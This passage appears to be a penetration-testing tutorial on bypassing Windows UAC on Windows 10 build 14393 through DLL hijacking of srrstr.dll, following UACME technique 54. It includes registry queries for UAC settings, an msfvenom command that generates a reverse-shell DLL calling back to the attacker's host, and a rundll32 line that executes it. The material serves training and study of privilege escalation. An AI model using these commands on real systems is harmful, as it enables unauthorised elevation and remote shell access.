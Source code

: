 The default **RID 500 administrator** account always operates at the high mandatory level. To check it:
```console
C:\zeropio> whoami /user
```

Confirm if UAC is enabled:
```console
C:\zeropio> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

And to check UAC level:
```console
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

The level **0x5** is the highest level, which means **Always notify** is enabled. There are fewer UAC bypasses at this highest level. Let's examine the build of Windows we're looking to elevate on:
```console
PS C:\zeropio> [environment]::OSVersion.Version
```

With the return code, we can check it [here](https://en.wikipedia.org/wiki/Windows_10_version_history). Now we can search in the Github [UACME](https://github.com/hfiref0x/UACME), and search for our current version.

Let's see for a Windows 10 build 14393. According to UACME, is the technique 54. This technique targets the 32-bit version of the auto-elevating binary SystemPropertiesAdvanced.exe. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt. The 32-bit version of **SystemPropertiesAdvanced.exe** attempts to load the non-existent DLL **srrstr.dll**, which is used by System Restore functionality. When attempting to locate a DLL, Windows will use the following search order:
1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32`{: .filepath} for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System`{: .filepath} (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

Let's examine the path variable:
```console
PS C:\zeropio> cmd /c echo %PATH%
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious srrstr.dll DLL to WindowsApps folder, which will be loaded in an elevated context. Generate the DLL:
```console
zero@pio$ msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=8443 -f dll > srrstr.dll
```

Download the malicious payload and start a netcat. If we execute the malicious **srrstr.dll** file, we will receive a shell back showing normal user rights (UAC enabled), run **rundll32.exe** to get a reverse shell connection:
```console
C:\zeropio> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
